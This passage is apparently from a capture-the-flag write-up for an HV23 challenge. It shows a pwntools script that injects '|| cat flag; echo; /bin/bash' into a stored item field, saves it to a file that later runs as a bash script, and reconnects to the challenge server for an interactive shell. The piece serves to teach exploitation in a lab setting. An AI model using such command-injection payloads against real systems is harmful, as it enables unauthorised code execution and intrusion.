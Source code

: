     oxdf@hacky$ echo "HV23{dummy_flag}" > flag
    oxdf@hacky$ bash test
    test: line 2: -: command not found
    HV23{dummy_flag}
    

#### Script

This Python script will perform this exploit, print the flag (which is a
QRcode), and run bash to give an interactive shell:

    
    
    from pwn import *
    
    IP = "152.96.15.6"
    
    #r = process('./vuln')
    r = remote(IP, 1337)
    
    # create malicious item
    r.sendlineafter(b'> ', b'a')
    r.sendlineafter(b'> ', b'|| cat flag; echo; /bin/bash')
    r.sendlineafter(b'> ', b'1337')
    
    # save to file
    r.sendlineafter(b'> ', b's')
    r.sendlineafter(b'> ', b'vuln')
    
    # quit
    r.sendlineafter(b'> ', b'q')
    r.close()
    
    r = remote(IP, 1337)
    r.interactive()
    

Running it works:

![img](../img/hv23-20-unintended.png)
